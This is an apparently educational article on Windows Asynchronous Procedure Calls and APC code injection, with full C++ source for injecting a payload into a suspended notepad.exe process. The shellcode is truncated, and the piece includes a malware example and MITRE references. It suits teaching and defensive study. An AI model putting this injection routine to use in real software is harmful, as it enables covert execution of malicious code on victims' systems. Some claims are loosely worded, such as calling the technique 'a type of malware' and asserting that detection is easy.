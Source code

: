 :orphan:
(malware-injection-techniques-apc-injection)=
# Malware Injection Techniques: APC injection
 

APC injection is a type of malware that inserts code into a process by using the system's asynchronous procedure call (APC) queue. This type of malware is difficult to detect because it doesn't create any new processes or files. Instead, it modifies existing ones. APC injection can be used to install other types of malware, such as keyloggers and remote access tools. It can also be used to disable security features, such as antivirus software. 

## APC

*Asynchronous Procedure Calls (APCs)* permit user programs and system code to execute within the context of a specific user thread (and hence a particular process address space).

APC procedures can acquire resources (objects), wait for object handles, experience page faults, and invoke system services.

APCs are described by an APC object, which is a kernel control object. APCs awaiting execution reside in a queue managed by the kernel.

In contrast to the system-wide DPC queue, the APC queue is thread-specific; each thread has its own APC queue. When instructed to queue an APC, the kernel inserts it into the thread's queue that will execute the APC routine. The kernel then requests a software interrupt at APC level, and when the thread begins running, the APC is executed.

APCs come in two varieties: kernel mode and user mode. Kernel-mode APCs can run in the context of a target thread without permission, whereas user-mode APCs require permission.
Kernel-p mode APCs interrupt a thread and execute a procedure without the thread's knowledge or permission.

In addition, there are two types of kernel-mode APCs: regular and special. Special APCs execute at the APC level and permit the APC routine to alter certain APC parameters. Normal APCs execute at passive level and receive the modified parameters (or the original parameters, if they were not modified) from the special APC routine. 

The executive uses kernel-mode APCs to complete operating system tasks within the address space (in the context) of a specific thread. It can use kernel-mode APCs to instruct a thread to stop executing an interruptible system service or to record the results of an asynchronous I/O operation in a thread's address space.

Environment subsystems use kernel-mode APCs to suspend or terminate a thread, as well as to retrieve or set its user-mode execution context. The Subsystem for UNIX Applications emulates the delivery of UNIX signals to Subsystem for UNIX Application processes using kernel-mode APCs.

Another significant application of kernel-mode APCs is thread suspension and termination. Due to the fact that these operations can be initiated from arbitrary threads and directed to arbitrary threads, the kernel uses an APC to query the thread context and terminate the thread. ­Device drivers frequently block APCs or enter a critical or guarded region to prevent these operations from occurring while they are holding a lock; otherwise, the lock may never be released, resulting in a system hang. 

Several Windows APIs employ user-mode APCs, including `ReadFileEx`, `WriteFileEx`, and `QueueUserAPC`.

The `ReadFileEx` and `WriteFileEx` functions, for instance, allow the caller to specify a completion routine that will be invoked when the I/O operation completes. Implementing I/O completion by queuing an APC for the thread that issued the I/O.
Nevertheless, the callback to the completion routine does not necessarily occur when the APC is queued because user-mode APCs are only delivered to a thread when it is in an alertable wait state.

A thread may enter a wait state either by waiting for an object handle and indicating that its wait is alertable (using the Windows `WaitForMultipleObjectsEx` function) or by directly testing whether it has a pending APC (using SleepEx).
If a user-mode APC is pending in either scenario, the kernel interrupts (alerts) the thread, transfers control to the APC routine, and resumes the thread's execution once the APC routine completes.

User-mode APCs execute at passive level, as opposed to kernel-mode APCs which can execute at APC level. 

## APC injection

Asynchronous Procedure Calls (APC) are utilized by malware to force legitimate threads to execute their malicious code. This is possible by attaching their code to the target thread's APC Queue. When a thread enters an alterable state, it is associated with a queue of APCs that await execution. 

Our malicious program creates a new legitimate process initially:

```cpp
// Create a 64-bit process:
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  LPVOID my_payload_mem;
  SIZE_T my_payload_len = sizeof(my_payload);
  LPCWSTR cmd;
  HANDLE hProcess, hThread;
  NTSTATUS status;

  ZeroMemory(&si, sizeof(si));
  ZeroMemory(&pi, sizeof(pi));
  si.cb = sizeof(si);

  CreateProcessA(
    "C:\\Windows\\System32\\notepad.exe",
    NULL, NULL, NULL, false,
    CREATE_SUSPENDED, NULL, NULL, &si, &pi
  );
```

Then, memory for the payload is allocated in the memory space of the newly created process: 

```cpp
// allocate a memory buffer for payload
  my_payload_mem = VirtualAllocEx(hProcess, NULL, my_payload_len,
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

Then, writing payload:

```cpp
  // write payload to allocated buffer
  WriteProcessMemory(hProcess, my_payload_mem, my_payload, my_payload_len, NULL);
```

APC is queued for the main thread, which is in a suspended state at the moment, then resume to suspended thread:

```cpp
  // inject into the suspended thread.
  PTHREAD_START_ROUTINE apc_r = (PTHREAD_START_ROUTINE)my_payload_mem;
  QueueUserAPC((PAPCFUNC)apc_r, hThread, NULL);

  // resume to suspended thread
  ResumeThread(hThread);

```

Full source code example:

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

// our payload
unsigned char my_payload[] = "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41...";

int main() {

  // Create a 64-bit process:
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  LPVOID my_payload_mem;
  SIZE_T my_payload_len = sizeof(my_payload);
  LPCWSTR cmd;
  HANDLE hProcess, hThread;
  NTSTATUS status;

  ZeroMemory(&si, sizeof(si));
  ZeroMemory(&pi, sizeof(pi));
  si.cb = sizeof(si);

  CreateProcessA(
    "C:\\Windows\\System32\\notepad.exe",
    NULL, NULL, NULL, false,
    CREATE_SUSPENDED, NULL, NULL, &si, &pi
  );
  WaitForSingleObject(pi.hProcess, 5000);
  hProcess = pi.hProcess;
  hThread = pi.hThread;

  // allocate a memory buffer for payload
  my_payload_mem = VirtualAllocEx(hProcess, NULL, my_payload_len,
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // write payload to allocated buffer
  WriteProcessMemory(hProcess, my_payload_mem, my_payload, my_payload_len, NULL);

  // inject into the suspended thread.
  PTHREAD_START_ROUTINE apc_r = (PTHREAD_START_ROUTINE)my_payload_mem;
  QueueUserAPC((PAPCFUNC)apc_r, hThread, NULL);

  // resume to suspended thread
  ResumeThread(hThread);

  return 0;
}
```

Source code provided for educational and research purposes

## Example

This diagram depicts the disassembly of the *Amanahe malware*.
It begins by invoking the `OpenThread` function to obtain a handle on a different thread. To inject its DLL into another thread, it calls `QueueUserAPC` with a pointer to `LoadLibraryA`. 

![example](images/apc-injection.png)


## Conclusion

This technique was identified in 2018 or earlier, so you can rest assured that AV / EDR software can easily detect it. 

## References

- [QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)    
- [ATT&CK MITRE: APC injection](https://attack.mitre.org/techniques/T1055/004/)    
- [Early Bird code injection discovered](https://www.cyberbit.com/blog/endpoint-security/new-early-bird-code-injection-technique-discovered/)

> **Would you like to learn practical malware analysis techniques? Then register for our online course! [MRE - Certified Reverse Engineer](https://www.mosse-institute.com/certifications/mre-certified-reverse-engineer.html).**
